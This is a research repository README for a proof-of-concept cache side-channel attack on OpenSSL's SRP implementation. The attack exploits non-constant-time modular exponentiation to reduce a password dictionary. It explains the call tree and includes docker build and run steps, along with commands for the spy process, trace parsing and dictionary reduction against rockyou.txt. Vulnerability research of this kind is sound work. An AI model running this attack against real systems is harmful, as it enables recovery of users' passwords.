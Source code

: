 # Proof of Concept attack on SRP

This repository contains a proof of concept of an attack on the OpenSSL implementation of SRP (Secure Remote Password). We recall that, within SRP, a password (a shared secret of low entrpy) is involved into the ephemeral key generation process. By design, SRP resists offline dictionary attacks. However, we show that such attacks are still possible to recover the used password efficiently, by exploiting some data leakage during an insecure modular exponentiation.

The call tree of our attack is the following:

	* SRP_Calc_client_key: crypto/srp/srp_lib.c
		* BN_mod_exp:  crypto/bn/bn_exp.c
			* BN_mod_exp_mont_word:  crypto/bn/bn_exp.c

Roughly speaking, the vulnerability is caused by the nature non constant-time of the function `BN_mod_exp_mont_word`.
The attack was tested on OpenSSL 1.1.1h, but should work on other versions too.

## Repository layout

* PoC_material: contains all the materials to be used to build the docker
* shared_folder: is shared between the docker and the host, making it easier to transmit files. Namely, it contains a sample of the data we were able to extract during our experiment.

## Run the PoC

We provide a docker to avoid any compatibility issue. However, it is worth noting that the nature of our attack (cache side-channels) makes the exact outcome of the spy process dependent of the executing CPU, which might lead to less reliable results. This reliability issue can be solved with more automated approach concerning the cache attack. However, we decided not to focus on that for this PoC. Instead, we included a sample of our results in shared_folder/traces. 

First, build the docker, which may take some time (longest part of our PoC):
```
docker build --rm -t parasite_openssl .
```
Once the build is done, you can simply run it:
```
docker run --mount type=bind,source="$(pwd)"/shared_folder,target=/PoC_PARASITE/shared_folder -it parasite_openssl
```

Inside the docker, you may run the following command to reproduce our results:
```bash
# Launch the SRP simulation along with the spy process to acquire some traces
./poc.sh -p superpassword
# Interpret the execution trace generated by the spy process to extract information
trace_parser.py traces_admin_superpassword_0102030405060708/* > infos_admin_superpassword_0102030405060708.txt
# Given the extracted information, compute a matching score for all passwords in the dictionary. The lower the score, the higher the chance we found the correct password
for info in $(cat infos_admin_superpassword_0102030405060708.txt | grep -v "Error");
do
    dict_reducer /usr/share/dict/rockyou.txt $info
done
```

As mentioned above, the first step may be an issue on different CPU, so you may need to run the parsing and reduction on the data we provide to get reliable results.
To do so, simply run:
```bash
trace_parser.py shared_folder/traces/traces_admin_dAdinretAm_0102030405060708/* > infos_admin_dAdinretAm_0102030405060708.txt
for info in $(cat infos_admin_dAdinretAm_0102030405060708.txt | grep -v "Error");
do
    dict_reducer /usr/share/dict/rockyou.txt $info
done
``` 
